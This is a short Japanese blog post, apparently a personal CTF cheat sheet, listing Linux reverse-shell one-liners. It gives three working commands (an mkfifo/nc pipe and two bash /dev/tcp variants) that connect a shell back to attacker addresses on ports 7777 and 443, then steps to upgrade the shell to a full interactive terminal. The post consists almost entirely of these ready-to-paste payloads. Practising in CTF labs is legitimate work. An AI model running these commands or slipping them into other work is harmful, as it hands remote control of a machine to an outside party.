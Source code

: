 ```yaml
---
layout: post
title: "linux_reverse_shell"
published : true
tags: CTF Common cheatsheet linux "reverse shell"
---
```

## リバースシェル
- コマンド1
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 7777 >/tmp/f
```
- コマンド2
```sh
bash -i >& /dev/tcp/10.10.14.14/7777 0>&1
```
- コマンド3
```sh
'bash -c "bash -i >& /dev/tcp/10.10.14.4/443 0>&1"'
```
## シェルのアップグレード
```
script /dev/null -c bash
```

## シェルをさらにアップグレード
```
(Ctrl + z)
stty raw -echo ; fg
```
